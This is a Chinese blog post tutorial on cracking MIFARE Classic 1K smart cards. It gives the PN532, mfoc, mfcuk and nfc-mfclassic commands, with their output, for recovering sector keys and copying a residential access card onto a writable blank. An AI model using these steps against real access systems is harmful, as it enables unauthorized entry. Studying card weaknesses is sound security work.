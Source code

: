 ```yaml
---
typora-root-url: ../img
layout:     post
title:      "智能卡安全之 M1 卡破解"
subtitle:   "入门篇，不知道能不能出系列"
date:       2018-10-30 21:30 +0800
author:     "gsfish"
header-img: "img/post-bg-hacker.jpg"
tags:
    - 无线安全
---
```



> 之所以起这个标题，是想有朝一日可以写成一个系列。由于目前手里只有一张未加密的 M1（MIFARE Classic 1K）卡，因此本文仅包含对 M1 卡的破解。


# 0x00 智能卡概况

M1 卡可分为 16 个扇区，每个扇区可分为 4 个段，每个段为 16 字节（即 `1K = 16 * 4 * 16B`）。

其中每个扇区的最后一段包含独立密钥，布局为：Key A(6B) + 控制位(4B) + Key B(6B)

M1 卡的整体布局如下：

```
00000000: 56b1 ce83 aa08 0400 6263 6465 6667 6869  V.......bcdefghi
00000010: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000020: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000030: ffff ffff ffff ff07 8069 ffff ffff ffff  .........i......
00000040: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000050: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000060: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000070: ffff ffff ffff ff07 8069 ffff ffff ffff  .........i......
00000080: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000090: 0000 0000 0000 0000 0000 0000 0000 0000  ................
000000a0: 0000 0000 0000 0000 0000 0000 0000 0000  ................
000000b0: ffff ffff ffff ff07 8069 ffff ffff ffff  .........i......
000000c0: 0000 0000 0000 0000 0000 0000 0000 0000  ................
000000d0: 0000 0000 0000 0000 0000 0000 0000 0000  ................
000000e0: 0000 0000 0000 0000 0000 0000 0000 0000  ................
000000f0: ffff ffff ffff ff07 8069 ffff ffff ffff  .........i......
00000100: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000110: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000120: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000130: ffff ffff ffff ff07 8069 ffff ffff ffff  .........i......
00000140: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000150: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000160: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000170: ffff ffff ffff ff07 8069 ffff ffff ffff  .........i......
00000180: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000190: 0000 0000 0000 0000 0000 0000 0000 0000  ................
000001a0: 0000 0000 0000 0000 0000 0000 0000 0000  ................
000001b0: ffff ffff ffff ff07 8069 ffff ffff ffff  .........i......
000001c0: 0000 0000 0000 0000 0000 0000 0000 0000  ................
000001d0: 0000 0000 0000 0000 0000 0000 0000 0000  ................
000001e0: 0000 0000 0000 0000 0000 0000 0000 0000  ................
000001f0: ffff ffff ffff ff07 8069 ffff ffff ffff  .........i......
00000200: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000210: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000220: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000230: ffff ffff ffff ff07 8069 ffff ffff ffff  .........i......
00000240: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000250: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000260: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000270: ffff ffff ffff ff07 8069 ffff ffff ffff  .........i......
00000280: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000290: 0000 0000 0000 0000 0000 0000 0000 0000  ................
000002a0: 0000 0000 0000 0000 0000 0000 0000 0000  ................
000002b0: ffff ffff ffff ff07 8069 ffff ffff ffff  .........i......
000002c0: 0000 0000 0000 0000 0000 0000 0000 0000  ................
000002d0: 0000 0000 0000 0000 0000 0000 0000 0000  ................
000002e0: 0000 0000 0000 0000 0000 0000 0000 0000  ................
000002f0: ffff ffff ffff ff07 8069 ffff ffff ffff  .........i......
00000300: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000310: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000320: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000330: ffff ffff ffff ff07 8069 ffff ffff ffff  .........i......
00000340: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000350: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000360: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000370: ffff ffff ffff ff07 8069 ffff ffff ffff  .........i......
00000380: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000390: 0000 0000 0000 0000 0000 0000 0000 0000  ................
000003a0: 0000 0000 0000 0000 0000 0000 0000 0000  ................
000003b0: ffff ffff ffff ff07 8069 ffff ffff ffff  .........i......
000003c0: 0000 0000 0000 0000 0000 0000 0000 0000  ................
000003d0: 0000 0000 0000 0000 0000 0000 0000 0000  ................
000003e0: 0000 0000 0000 0000 0000 0000 0000 0000  ................
000003f0: ffff ffff ffff ff07 8069 ffff ffff ffff  .........i......
```

我们从淘宝上可以买到的白卡大致分为一下几种：

| 类型  | 说明                                                     |
| ----- | -------------------------------------------------------- |
| M1    | 普通 IC 卡，除 0 扇区不可修改，其他扇区可重复擦写        |
| UID   | 普通 IC 复制卡（Chinese clones），可重复擦写所有扇区     |
| CUID  | 用于绕过系统对 UID 卡的拦截                              |
| FUID  | 用于绕过系统对 CUID 卡的拦截，0 扇区写入一次后变成 M1 卡 |
| UFUID | UID 和 FUID 的合成卡，需要封卡操作                       |


# 0x01 工具准备

出于省钱的考虑采用的方案为：NXP 自家的 PN532 NFC/RFID v3 模块 + CH340 USB 转 TTL 模块

硬件：

1. PN532
2. CH340
3. UID 白卡若干

软件：

1. libnfc
2. mfoc
3. mfcuk

M1（MIFARE Classic 1K）卡是我们日常生活中经常接触到的智能卡之一，本次破解为使用 UID 卡对博主小区的 M1 门禁卡进行复制（小区门禁是检测 0 扇区的数据）。

由于 Linux 内核自 2.6 之后默认添加了对 CH340/CH341 芯片的驱动支持，将 PN532 连接好，`libnfc` 安装完成后，即可使用 `nfc-list` 检测系统是否成功识别 NFC 设备。若无法识别可尝试在 `/etc/nfc/libnfc.conf` 中设置如下选项以自动检测设备：

```
allow_autoscan = true
allow_intrusive_scan = true
```


# 0x02 破解扇区密钥

首先使用 `mfoc` 尝试导出扇区转储：

```
sudo mfoc -O mycard.mfd
```

该工具会使用内嵌的默认密码字典尝试解密各扇区，若出现如下输出则说明该卡需要破解：

```
Try to authenticate to all sectors with default keys...
Symbols: '.' no key found, '/' A key found, '\' B key found, 'x' both keys found
[Key: ffffffffffff] -> [................]
[Key: a0a1a2a3a4a5] -> [................]
[Key: d3f7d3f7d3f7] -> [................]
[Key: 000000000000] -> [................]
[Key: b0b1b2b3b4b5] -> [................]
[Key: 4d3a99c351dd] -> [................]
[Key: 1a982c7e459a] -> [................]
[Key: aabbccddeeff] -> [................]
[Key: 714c5c886e97] -> [................]
[Key: 587ee5f9350f] -> [................]
[Key: a0478cc39091] -> [................]
[Key: 533cb6c723f6] -> [................]
[Key: 8fd0a4f256e9] -> [................]
 
Sector 00 -  UNKNOWN_KEY [A]  Sector 00 -  UNKNOWN_KEY [B]  
Sector 01 -  UNKNOWN_KEY [A]  Sector 01 -  UNKNOWN_KEY [B]  
Sector 02 -  UNKNOWN_KEY [A]  Sector 02 -  UNKNOWN_KEY [B]  
Sector 03 -  UNKNOWN_KEY [A]  Sector 03 -  UNKNOWN_KEY [B]  
Sector 04 -  UNKNOWN_KEY [A]  Sector 04 -  UNKNOWN_KEY [B]  
Sector 05 -  UNKNOWN_KEY [A]  Sector 05 -  UNKNOWN_KEY [B]  
Sector 06 -  UNKNOWN_KEY [A]  Sector 06 -  UNKNOWN_KEY [B]  
Sector 07 -  UNKNOWN_KEY [A]  Sector 07 -  UNKNOWN_KEY [B]  
Sector 08 -  UNKNOWN_KEY [A]  Sector 08 -  UNKNOWN_KEY [B]  
Sector 09 -  UNKNOWN_KEY [A]  Sector 09 -  UNKNOWN_KEY [B]  
Sector 10 -  UNKNOWN_KEY [A]  Sector 10 -  UNKNOWN_KEY [B]  
Sector 11 -  UNKNOWN_KEY [A]  Sector 11 -  UNKNOWN_KEY [B]  
Sector 12 -  UNKNOWN_KEY [A]  Sector 12 -  UNKNOWN_KEY [B]  
Sector 13 -  UNKNOWN_KEY [A]  Sector 13 -  UNKNOWN_KEY [B]  
Sector 14 -  UNKNOWN_KEY [A]  Sector 14 -  UNKNOWN_KEY [B]  
Sector 15 -  UNKNOWN_KEY [A]  Sector 15 -  UNKNOWN_KEY [B]  
```

MFCUK（MiFare Classic Universal toolKit） 是一款基于 darkside 攻击原理破解全加密 M1 卡的开源软件，`mfcuk` 通过算法的漏洞破解出第一个 Key，如果某个扇区的 Key 被破解出来，就可以再使用 `mfoc` 工具使用 nested authentication 攻击破解其他扇区的密码：

```
sudo mfcuk -C -R {} -s 250 -S 250

说明：
{} 替换为待破解的扇区号，也可使用切片指定范围 0:A
```


# 0x03 导出扇区转储

使用 `mfoc` 尝试以默认密钥导出扇区转储：

```
sudo mfoc -O mycard.mfd
```

# 0x04 写入新卡

使用 `nfc-mfclassic`（`libnfc` 内置）将转储文件写入白卡：

```
sudo nfc-mfclassic W a mycard.mfd mycard.mfd f

说明：
W 为可写入 0 扇区（UID 卡）
a 为使用 Key A 解密，遇错时退出
第一个 mycard.mfd 为待写入的转储文件
第二个 mycard.mfd f 为包含密钥的转储文件
```

# 参考文献

1. [hodit. RFID 破解基础详解[EB/OL]. https://mp.weixin.qq.com/s?__biz=MzI5MDQ2NjExOQ==&mid=2247488354&idx=1&sn=be1205869e1be6bf5df3b3f2132d2969](https://mp.weixin.qq.com/s?__biz=MzI5MDQ2NjExOQ==&mid=2247488354&idx=1&sn=be1205869e1be6bf5df3b3f2132d2969)
2. [FanZheng. Mifare Classic 1K智能卡介绍及nfc-tools的使用. https://fanzheng.org/archives/30](https://fanzheng.org/archives/30)
3. [Uranus Zhou. 复制MIFARE Classic小区门禁卡记录[EB/OL]. https://zohead.com/archives/copy-mifare-classic/](https://zohead.com/archives/copy-mifare-classic/)
